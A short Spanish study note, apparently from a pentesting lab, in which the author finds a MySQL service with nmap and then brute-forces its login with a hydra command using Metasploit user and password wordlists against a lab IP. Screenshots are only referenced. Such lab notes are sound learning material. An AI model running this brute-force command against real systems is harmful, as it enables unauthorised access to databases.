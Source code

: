 Hacemos un reconocimiento con nmap para saber por donde está corriendo la base de datos MySQL:
![[Mis apuntes/ANEXOS/Pasted image 20230727155853.png]]
Lo haríamos con este comando:
```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.119.223.3 mysql
```
Y nos encuentra la contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230727160938.png]]
